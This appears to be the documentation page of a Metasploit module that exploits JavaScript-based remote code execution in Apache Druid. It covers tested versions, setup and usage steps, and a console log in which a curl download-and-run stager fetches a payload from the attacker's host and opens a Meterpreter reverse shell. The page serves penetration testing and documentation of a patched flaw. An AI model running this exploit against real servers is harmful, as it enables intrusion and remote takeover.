 
## Vulnerable Application
Apache Druid
### Description

This module post json type request to Apache Druid with "config" is set to true, 
and execute command in "function" with Javascript to exploit.
But it seem that some payloads can't execute successfully and no reason,
such as cmd/unix/reverse_python


It has been fixed in Apache Druid 0.20.1

This module has been tested successfully against bebelow:
Apache Druid 0.15.1 Debian 9.11 (Linux 3.10.0-957.21.3.el7.x86_64)
Apache Druid 0.16.0-iap8  Ubuntu 16.04 (Linux 3.10.0-957.27.2.el7.x86_64)
Apache Druid 0.17.1 CentOS 8.2.2004 (Core) (Linux 4.18.0-193.28.1.el8_2.x86_64)
Apache Druid 0.18.0-iap3 Debian 9.12 (Linux 4.19.0-0.bpo.8-amd64)
Apache Druid 0.19.0-iap7 Ubuntu 18.04 (Linux 4.14.193-149.317.amzn2.x86_64)
Apache Druid 0.20.0-iap4.1 Ubuntu 18.04 (Linux 4.19.112+)
Apache Druid 0.21.0-iap3 CentOS 7.9.2009 (Linux 3.10.0-1160.15.2.el7.x86_64)
### Setup

Just use docker,but any other version you need to find by yourself

docker pull fokkodriesprong/docker-druid
docker run --rm -i -p 8888:8888 fokkodriesprong/docker-druid

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/apache_druid_js_rce`
1. Do: `set rhosts <ip>`
1. Do: `set lhost <ip>`
1. Do: `set lport/srvport <ip>` if necessary
1. Do: `run`
1. You should get a shell.

## Targets

### 0 (Linux Dropper)

This uses a Linux dropper to execute code.

### 1 (Unix Command)

This executes a Unix command.

## Options

### CHECKCMD

You can set a customize command to check and get command exec result respond.
Default is "id"


## Scenarios

### Apache Druid 0.20.0-iap4.1 on SaltStack Salt 3002.2 on Ubuntu 18.04 (Linux 4.19.112+)

```
msf6 > use exploit/linux/http/apache_druid_js_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/apache_druid_js_rce) > set rhosts 10.100.70.2
rhosts => 10.100.70.2
msf6 exploit(linux/http/apache_druid_js_rce) > set rport 8888
rport => 8888
msf6 exploit(linux/http/apache_druid_js_rce) > set verbose true
verbose => true
msf6 exploit(linux/http/apache_druid_js_rce) > options

Module options (exploit/linux/http/apache_druid_js_rce):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CHECKCMD  id               yes       The command to execute as checking vulnerability
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    10.100.70.2      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     8888             yes       The target port (TCP)
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)
   VHOST                      no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.100.70.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux (dropper)


msf6 exploit(linux/http/apache_druid_js_rce) > run

[*] Started reverse TCP handler on 10.100.70.1:4444
[*] Using URL: http://0.0.0.0:8080/NCId0EEi0G9
[*] Local IP: http://10.100.70.1:8080/NCId0EEi0G9
[*] Generated command stager: ["curl -so /tmp/cdAZJjlU http://10.100.70.1:8080/NCId0EEi0G9;chmod +x /tmp/cdAZJjlU;/tmp/cdAZJjlU;rm -f /tmp/cdAZJjlU"]
[*] Executing command /bin/bash`@~-c`@~curl -so /tmp/cdAZJjlU http://10.100.70.1:8080/NCId0EEi0G9;chmod +x /tmp/cdAZJjlU;/tmp/cdAZJjlU;rm -f /tmp/cdAZJjlU ......
[*] Client 10.100.70.2 (curl/7.58.0) requested /NCId0EEi0G9
[*] Sending payload to 10.100.70.2 (curl/7.58.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3008420 bytes) to 10.100.70.2
[*] Meterpreter session 2 opened (10.100.70.1:4444 -> 10.100.70.2:59996) at 2021-03-31 10:56:03 +0800
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 10.100.70.2
OS           : Ubuntu 18.04 (Linux 4.19.112+)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```
